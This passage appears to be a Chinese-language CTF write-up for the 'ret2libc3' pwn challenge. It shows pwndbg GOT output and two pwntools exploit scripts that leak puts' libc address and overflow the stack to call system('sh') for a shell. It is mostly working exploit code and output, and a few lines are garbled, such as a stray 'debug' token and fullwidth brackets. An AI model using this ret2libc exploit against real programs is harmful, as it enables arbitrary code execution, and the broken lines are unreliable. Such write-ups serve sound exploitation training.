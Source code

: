 此时的程序已经调用过puts函数，所以got表中保存的是函数的真实地址，利用函数间的相对地址保持不变，即可得到所需要的system函数的地址，但此处的地址不能直接用，因为libc在载入时会进行地址随机化。

> pwndbg> got
>
> GOT protection: Partial RELRO | GOT functions: 8
>
> [0x804a00c] read@GLIBC_2.0 -> 0xf7ec0a40 (read) ◂— endbr32 
> [0x804a010] printf@GLIBC_2.0 -> 0xf7e1f340 (printf) ◂— endbr32 
> [0x804a014] fflush@GLIBC_2.0 -> 0xf7e3aad0 (fflush) ◂— endbr32 
> [0x804a018] strcpy@GLIBC_2.0 -> 0xf7e5d7d0 (\_\_strcpy_ssse3) ◂— endbr32 
> [0x804a01c] puts@GLIBC_2.0 -> 0xf7e3ccd0 (puts) ◂— endbr32 
> [0x804a020] _\_gmon_start\_\_ -> 0x8048406 (\_\_gmon_start__@plt+6) ◂— push   0x28 /* 'h(' */
> [0x804a024] \_\_libc_start_main@GLIBC\_2.0 -> 0xf7de9df0 (\_\_libc\_start\_main) ◂— endbr32 
> [0x804a028] strtol@GLIBC_2.0 -> 0xf7e05750 (strtol) ◂— endbr32 

以下为攻击脚本

```py
from pwn import*
io = process("./ret2libc3")
io.recv()

elf=ELF("./ret2libc3")
#libc=ELF("./libc-2.23.so")
libc=ELF("/lib/i386-linux-gnu/libc.so.6")
'''
here,we need to send a address(puts 's got_address),for the reason of the function
strtol( str->int ) so we need to send a str rather than a byte
'''
 
io.sendline(str(elf.got["puts"]))
io.recvuntil(b" : ")
puts_add=int(io.recvuntil(b"\n",drop=True),16)
#drop=True than the '\n' will be dropped
#16 will tell the int() that the Parameter is Hex
sys_add1=libc.symbols["system"]
puts_add1=libc.symbols["puts"]
bin_add1=next(libc.search(b"/bin/sh"))
bin_add=bin_add1+puts_add-puts_add1
sys_add=sys_add1+puts_add-puts_add1
payload=b'a'*60+p32(sys_add)+b'a'*4+p32(next(elf.search(b"sh\00")))
#payload=b'a'*60+p32(sys_add)+b'a'*4+p32(bin_add)
#payload=flat(cyclic(60), sys_add, cyclic(4),next(elf.search(b"sh\x00")))
io.recv()
io.sendline(payload)
io.interactive()
```
this is another exp
```py
from pwn import *
io = process("./ret2libc3")
elf = ELF("./ret2libc3")
libc=ELF("/lib/i386-linux-gnu/libc.so.6")
io.sendlineafter(b" :",str(elf.got['puts']))
io.recvuntil(b" : ")
libcBase = int(io.recvuntil(b"\n",drop = True),16)-libc.symbols["puts"]
success("libc_offset -> {:#x}".format(libcBase))  debug
#payload = b"A"*60 + p32(libc_offset+libc.symbols【"system"】)+ b"AAAA" + p32(next(elf.search(b"sh\x00")))
payload = flat(cyclic(60), libcBase+libc.symbols["system"], cyclic(4), next(elf.search(b"sh\x00")))
io.sendlineafter(b" :",payload)
io.interactive()
```
> ret2libc3 $ python3 ret2libc3.py
> [+] Starting local process './ret2libc3': pid 2805